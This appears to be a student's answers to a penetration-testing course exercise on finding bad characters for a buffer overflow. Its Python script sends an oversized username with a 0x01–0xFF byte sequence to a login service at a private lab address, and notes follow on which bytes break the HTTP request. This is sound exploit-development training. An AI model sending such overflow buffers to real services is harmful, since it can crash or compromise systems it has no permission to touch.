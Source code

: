 ### 11.2.5.1 Exercises
#### 1. Repeat the required steps in order to identify the bad characters that cannot be included in the payload.

Created script to send bad characters in our input buffer:

```python
# Checking for bad characters
#!/usr/bin/python 
import socket
                            
try:              
    print "\nSending evil buffer....."
    filler = "A" * 780
    eip  = "B" * 4
    offset = "C" * 4
    badchars = (
            "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
            "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
            "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
            "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
            "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
            "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
            "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
            "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
            "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
            "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
            "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
            "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
            "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
            "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
            "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
            "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
    inputBuffer = filler + eip + offset + badchars

    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.216.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://192.168.216.10/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"

    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        
    s.connect(("192.168.216.10", 80))
    s.send(buffer)
        
    s.close()
    print "\Done!"
except:
    print "\nCould not connect!"
```

Ran this program, then followed the ESP address in the dump and checked to see how many of the bad characters made it before the cut off.   

![image-20200704161641962](.11.2.5.1.assets/image-20200704161641962.png)

I removed those bad characters from the code and re-ran it until character 0xFF was reached.

![image-20200704162123452](.11.2.5.1.assets/image-20200704162123452.png)

#### 2. Why are these characters not allowed? How do these bad hex characters translate to ASCII?

This is a common bad character for strings:  0x00 (NULL)

These characters are bad for HTTP because they are interpreted by the protocol:  0x0A (Line Feed), 0x0D (End Character), 0x25 (%), 0x26 (&), 0x2B (+), 0x3D (=)